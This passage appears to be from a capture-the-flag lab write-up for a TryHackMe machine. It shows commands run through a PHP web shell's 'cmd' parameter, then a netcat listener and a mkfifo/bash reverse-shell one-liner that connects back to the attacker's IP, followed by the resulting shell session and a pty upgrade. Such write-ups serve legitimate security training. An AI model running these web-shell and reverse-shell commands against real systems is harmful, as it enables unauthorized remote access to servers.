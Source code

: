 `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id' | base64 -d`

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=which netcat' | base64 -d`

```bash
/usr/bin/netcat
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=ls -lsa /var/www/html/' | base64 -d`

```bash
4 drwxr-xr-x 3 www-data www-data 4096 Dec 13  2023 .
4 drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
4 -rw-rw-r-- 1 www-data www-data 2542 Dec 13  2023 about.html
4 -rw-rw-r-- 1 www-data www-data 2573 Dec 13  2023 admissions.html
4 drwxrwxr-x 3 www-data www-data 4096 Jan 25  2024 assets
4 -rw-rw-r-- 1 www-data www-data 2056 Dec 13  2023 contact.html
4 -rw-rw-r-- 1 www-data www-data 2580 Dec 13  2023 courses.html
4 -rw-rw-r-- 1 www-data www-data 1988 Dec 13  2023 index.html
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=whoami' | base64 -d`

```bash
www-data
```

> **Reverse Shell Phase**
> 

`nc -nlvp 11222`

```bash
listening on [any] 11222 ...
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.37.37 11222 >/tmp/f' | base64 -d`

```bash
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.188.133] 51160
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell

www-data@myheroacademia:/var/www/html/assets$ whoami
www-data
www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@myheroacademia:/var/www/html/assets$ pwd
/var/www/html/assets
www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
www-data@myheroacademia:/var/www/html/assets$ dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
www-data@myheroacademia:/var/www/html/assets$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@myheroacademia:/var/www/html/assets$ export TERM=xterm
www-data@myheroacademia:/var/www/html/assets$
```
